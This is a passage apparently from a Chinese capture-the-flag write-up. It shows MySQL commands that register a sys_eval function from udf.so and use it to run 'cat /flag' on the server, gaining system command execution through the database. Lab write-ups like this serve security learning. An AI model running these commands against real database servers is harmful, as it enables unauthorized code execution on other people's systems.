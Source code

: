 ## 创建自定义函数

```bash
mysql -uroot -h127.0.0.1 -e "CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.so';"
```

![image-20210810190656170](images/image-20210810190656170.png) 

这个创建函数实际上没有响应，但是实际上已经创建成功了。

## 通过 udf.so 执行系统命令

```mysql
mysql -uroot -h127.0.0.1  -e "select sys_eval('cat /flag');"
```

![image-20210810190905343](images/image-20210810190905343.png) 

成功拿到 flag，少个了 `}`，不过无伤大雅。

